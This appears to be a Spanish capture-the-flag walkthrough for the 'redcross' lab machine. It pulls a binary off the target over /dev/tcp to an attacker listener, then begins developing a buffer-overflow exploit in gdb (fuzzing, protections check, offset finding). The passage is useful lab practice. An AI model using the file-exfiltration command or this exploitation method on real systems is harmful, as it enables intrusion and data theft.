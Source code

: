 ```console
www-data@redcross:/tmp$ /opt/iptctl/iptctl show 10.10.14.12
DEBUG: All checks passed... Executing iptables
ERR: Function not available!
www-data@redcross:/tmp$ file /opt/iptctl/iptctl
ELF 64-bit LSB executable, x86-64, version
```
Como es un binario tocaría traernoslo.
```console
└─$ sudo nc -nlvp 666 > iptctl
www-data@redcross:/tmp$ cat < /opt/iptctl/iptctl > /dev/tcp/10.10.14.12/666
```
Si le hacemos un md5sum a ambos binarios (el que hemos traido y el original) vemos que los hashes son iguales por lo que no ha sufrido cambios en 
el camino
Hay una funcion **isValidAction** donde le pasamos la action con el parámetro -i y lo mete en un buffer de 10 caracteres ¿Y si hay más?
```console
└─$ ./iptctl  -i
Entering interactive mode
Action(allow|restrict|show): allowwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwww
IP address: 127.0.0.1
zsh: segmentation fault  ./iptctl -i
```
Error de segmentación, es decir buffer overflow. El problema lo causa fgets en la función de interactive ya que intenta meter algo en el buffer que 
es mas grande que él.

Vamos primero a mirar las protecciones del binario:  
```console
www-data@redcross:/tmp$ for i in $(seq 1 20); do ldd /opt/iptctl/iptctl | grep libc | awk 'NF{print $NF}'; done
# Da cada vez una distinta asi que hay aleatorizacion de las direcciones de memoria

└─$ gdb ./iptctl
gef➤  checksec 
# Está NX activado así que no podemos hacer un shellcode buffer overflow porque no ejecutara la pila
# En cambio PIE está desactivado por lo que podemos aprovechar funciones existentes como execvp y setuid
```
Luego a analizar su comportamiento a bajo nivel:  
```console
gef➤  pattern create 50
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga
gef➤  r -i   # Correr en modo interactivo
Action(allow|restrict|show): allowaaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga
-------------------------------------------------------
$rsp   : 0x007fffffffddf8  →  "aaaeaaaaaaafaaaaaaaga\n"
$rbp   : 0x6161616164616161 ("aaadaaaa"?)
-------------------------------------------------------
gef➤  pattern offset $rsp
[+] Found at offset 29 (little-endian search) likely
# Si rsp es "aaaeaaaaaaafaaaaaaaga" entre eso y allow esta "aaaaaaaabaaaaaaacaaaaaaadaaaa" (29 caracteres)

gef➤  x/-48wx  $rsp
0x7fffffffddd8:	0x61776f6c	0x61616161	0x2e373231	0x2e302e30 # Nosotros empezamos a escribir como que por aqui
0x7fffffffdde8:	0x63000031	0x61616161	0x64616161	0x61616161

gef➤  x/48wx  $rsp
0x7fffffffddf8:	0x65616161	0x61616161	0x66616161	0x61616161 # A partir de aqui entramos en la pila de la funcion actual
0x7fffffffde08:	0x67616161	0x00000a61	0x00000000	0x00000000
```